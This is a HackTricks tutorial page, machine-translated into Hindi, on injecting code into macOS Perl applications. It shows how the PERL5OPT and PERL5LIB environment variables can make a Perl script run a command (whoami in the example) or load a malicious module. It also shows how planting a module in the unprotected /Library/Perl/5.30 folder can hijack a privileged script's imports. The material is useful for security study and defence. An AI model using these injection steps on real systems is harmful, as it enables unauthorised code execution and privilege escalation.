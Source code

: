 # macOS Perl एप्लिकेशन्स इंजेक्शन

{% hint style="success" %}
AWS हैकिंग सीखें और प्रैक्टिस करें: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और प्रैक्टिस करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) की जाँच करें!
* 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में **शामिल हों** या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स** और **हैकट्रिक्स क्लाउड** github रेपो में PR जमा करके।

</details>
{% endhint %}

## `PERL5OPT` और `PERL5LIB` env वेरिएबल के माध्यम से

PERL5OPT एनवायरनमेंट वेरिएबल का उपयोग करके पर्ल को विभिन्न कमांड्स को निषेध करने की संभावना है।\
उदाहरण के लिए, इस स्क्रिप्ट को बनाएं:

{% code title="test.pl" %}
```perl
#!/usr/bin/perl
print "Hello from the Perl script!\n";
```
{% endcode %}

अब **एनवी वेरिएबल निर्यात करें** और **पर्ल** स्क्रिप्ट को चलाएं:
```bash
export PERL5OPT='-Mwarnings;system("whoami")'
perl test.pl # This will execute "whoami"
```
एक और विकल्प है कि एक Perl मॉड्यूल बनाया जाए (उदा। `/tmp/pmod.pm`):

{% code title="/tmp/pmod.pm" %}
```perl
#!/usr/bin/perl
package pmod;
system('whoami');
1; # Modules must return a true value
```
{% endcode %}

और फिर env variables का उपयोग करें:
```bash
PERL5LIB=/tmp/ PERL5OPT=-Mpmod
```
## वाया निर्भरता

Perl चल रहे dependencies फ़ोल्डर क्रम की सूची बनाना संभव है:
```bash
perl -e 'print join("\n", @INC)'
```
कुछ इस प्रकार की चीज वापस देगा:
```bash
/Library/Perl/5.30/darwin-thread-multi-2level
/Library/Perl/5.30
/Network/Library/Perl/5.30/darwin-thread-multi-2level
/Network/Library/Perl/5.30
/Library/Perl/Updates/5.30.3
/System/Library/Perl/5.30/darwin-thread-multi-2level
/System/Library/Perl/5.30
/System/Library/Perl/Extras/5.30/darwin-thread-multi-2level
/System/Library/Perl/Extras/5.30
```
कुछ वापसी फोल्डर मौजूद भी नहीं हैं, हालांकि, **`/Library/Perl/5.30`** मौजूद है, यह **SIP** द्वारा **सुरक्षित नहीं है** और यह **SIP द्वारा सुरक्षित फोल्डरों से पहले** है। इसलिए, कोई व्यक्ति उस फोल्डर का दुरुपयोग करके वहाँ स्क्रिप्ट डिपेंडेंसी जोड़ सकता है ताकि एक उच्च विशेषाधिकार Perl स्क्रिप्ट इसे लोड करें।

{% hint style="warning" %}
हालांकि, ध्यान दें कि आपको **उस फोल्डर में लिखने के लिए रूट होना चाहिए** और आजकल आपको यह **TCC प्रॉम्प्ट** मिलेगा:
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (28).png" alt="" width="244"><figcaption></figcaption></figure>

उदाहरण के लिए, अगर एक स्क्रिप्ट **`use File::Basename;`** को आयात कर रहा है तो **`/Library/Perl/5.30/File/Basename.pm`** बनाना संभव होगा ताकि इसे विचारशील कोड चलाने के लिए।

## संदर्भ

* [https://www.youtube.com/watch?v=zxZesAN-TEk](https://www.youtube.com/watch?v=zxZesAN-TEk)
